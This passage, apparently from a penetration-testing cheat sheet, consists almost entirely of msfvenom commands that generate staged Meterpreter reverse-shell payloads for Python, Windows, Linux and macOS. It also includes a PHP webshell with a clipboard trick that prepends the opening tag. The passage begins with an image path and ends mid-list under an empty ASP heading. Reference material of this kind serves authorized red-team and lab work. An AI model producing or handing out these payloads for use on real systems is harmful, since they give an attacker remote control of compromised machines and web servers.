 `$ msfvenom -p python/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_tcp_ssl lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_http lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -o met.py`

##### 2.6.1.2 - Staged Windows Meterpreter Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_tcp_dns lhost=<dns_URL> lport=<PORT> -f exe met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_named_pipe pipename=<PIPENAME> -f exe -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met_x86_64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_named_pipe pipename=<PIPENAME> -f exe -o met-x64.exe`

##### 2.6.1.2 - Staged Linux Meterpreter Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o met-x86`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o met-x64`

##### 2.6.1.3 - Staged Mac OSX Meterpreter Reverse Shells

1. **x86-64 (64-bit) Payloads**

`$ msfvenom -p osx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f macho -o met-x64`

##### 2.6.1.4 - Staged Reverse Webshells

1. **PHP**

`$ msfvenom -p php/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`

2. **ASP**
